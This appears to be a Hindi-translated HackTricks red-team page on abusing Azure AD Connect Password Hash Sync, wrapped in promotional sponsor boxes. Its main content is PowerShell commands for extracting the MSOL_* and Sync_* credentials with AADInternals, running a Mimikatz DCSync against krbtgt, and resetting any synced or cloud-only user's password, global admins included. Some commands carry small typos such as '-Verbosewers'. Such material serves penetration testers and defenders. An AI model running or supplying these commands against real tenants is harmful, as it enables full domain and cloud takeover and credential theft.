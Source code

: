 # Az - PHS - पासवर्ड हैश सिंक

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी की विज्ञापनित करना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [सब्सक्रिप्शन प्लान](https://github.com/sponsors/carlospolop) देखें!
* [आधिकारिक PEASS & HackTricks स्वैग](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [NFTs](https://opensea.io/collection/the-peass-family) संग्रह, The PEASS Family, खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **HackTricks** और **HackTricks Cloud** github repos में PR जमा करके अपने हैकिंग ट्रिक्स साझा करें।

</details>

## मूल जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **पासवर्ड हैश सिंक्रोनाइज़ेशन** हाइब्रिड आईडेंटिटी पूरा करने के लिए उपयोग किए जाने वाले साइन-इन विधियों में से एक है। **Azure AD Connect** एक उपकरण है जो एक उपकरण से एक उपयोगकर्ता के पासवर्ड का हैश, एक हैश, को एक क्लाउड-आधारित Azure AD उपकरण में सिंक्रोनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा उपयोग की जाने वाली **सबसे सामान्य विधि** है जो एक ऑन-प्रेम AD को Azure AD के साथ सिंक्रोनाइज़ करने के लिए की जाती है।

सभी **उपयोगकर्ता** और **पासवर्ड हैश का हैश** ऑन-प्रेम से Azure AD में सिंक्रोनाइज़ होते हैं। हालांकि, **स्पष्ट-पाठ पासवर्ड** या **मूल हैश** Azure AD में नहीं भेजे जाते हैं।\
इसके अतिरिक्त, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन व्यवस्थापक...) को Azure AD में **सिंक्रोनाइज़ नहीं** किया जाता है।

**हैश सिंक्रोनाइज़ेशन** हर **2 मिनट** में होती है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता समाप्ति** Azure AD में **सिंक नहीं** होती है। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रेम पासवर्ड समाप्त हो गया है** (नहीं बदला गया) पुराने पासवर्ड का उपयोग करके **Azure संसाधनों तक पहुंच** सकता है।

जब एक ऑन-प्रेम उपयोगकर्ता एक Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** की आवश्यकता है जैसे **आईडेंटिटी सुरक्षा** और AAD डोमेन सेवाएं के लिए।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकारी खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** स्वचालित रूप से ऑन-प्रेम AD में बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [दस्तावेज़](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका मतलब है कि इसके पास **ऑन-प्रेम AD में रिप्लिकेशन (DCSync) अनुमतियाँ हैं**।
* एक खाता **`Sync_<name of on-prem ADConnect Server>_installationID`** Azure AD में बनाया जाता है। यह खाता Azure AD में किसी भी उपयोगकर्ता का पासवर्ड रीसेट कर सकता है (सिंक्रोनाइज़ या क्लाउड केवल)।

पिछले दो विशेषाधिकारी खातों के पासवर्ड **एक SQL सर्वर में स्टोर किए जाते हैं** जहाँ **Azure AD Connect स्थापित है।** व्यवस्थापक उन विशेषाधिकारी उपयोगकर्ताओं के पासवर्ड को स्पष्ट-पाठ में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक तालिका में से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**एन्क्रिप्टेड कॉन्फ़िगरेशन** को **DPAPI** के साथ एन्क्रिप्ट किया गया है और इसमें **`MSOL_*`** उपयोगकर्ता के पासवर्ड और **AzureAD में Sync\_\*** का पासवर्ड है। इसलिए, इन्हें कंप्रोमाइज़ करने के बाद AD और AzureAD में प्राइवेस्क करना संभव है।

आप एक [टॉक](https://www.youtube.com/watch?v=JEIR5oGCwdg) में इन क्रेडेंशियल्स को कैसे स्टोर किया और डिक्रिप्ट किया जाता है का पूर्ण अवलोकन पा सकते हैं।

### **Azure AD कनेक्ट सर्वर** खोजना

अगर **सर्वर जहाँ Azure AD कनेक्ट स्थापित है** डोमेन ज्वाइन है (दस्तावेज़ में सिफारिश की गई है), तो इसे खोजना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप इन परिनामों को प्राप्त करने के लिए [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का भी उपयोग कर सकते हैं।
{% endhint %}

### सिंक\_\* का दुरुपयोग

**`Sync_*`** खाते को कंप्रोमाइज़ करके किसी भी उपयोगकर्ता का पासवर्ड रीसेट करना संभव है (जिसमें ग्लोबल व्यवस्थापक भी शामिल हैं)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह भी संभव है केवल **क्लाउड** उपयोगकर्ताओं के पासवर्ड को **संशोधित** करना (यदि यह अप्रत्याशित है)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
इस उपयोगकर्ता के पासवर्ड को डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प हो सकता है **सेवा प्रधान** को **विशेषाधिकारित अनुमतियाँ सौंपना**, जिसे **सिंक** उपयोगकर्ता को **अनुमतियाँ** हैं, और फिर **उस सेवा प्रधान** तक पहुंचना एक privesc के रूप में।
{% endhint %}

### सीमलेस एसएसओ

PHS के साथ सीमलेस एसएसओ का उपयोग करना संभव है, जो अन्य दुरुपयोगों के लिए विकल्पयुक्त है। इसे जांचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) से या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PRs** सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो को।

</details>
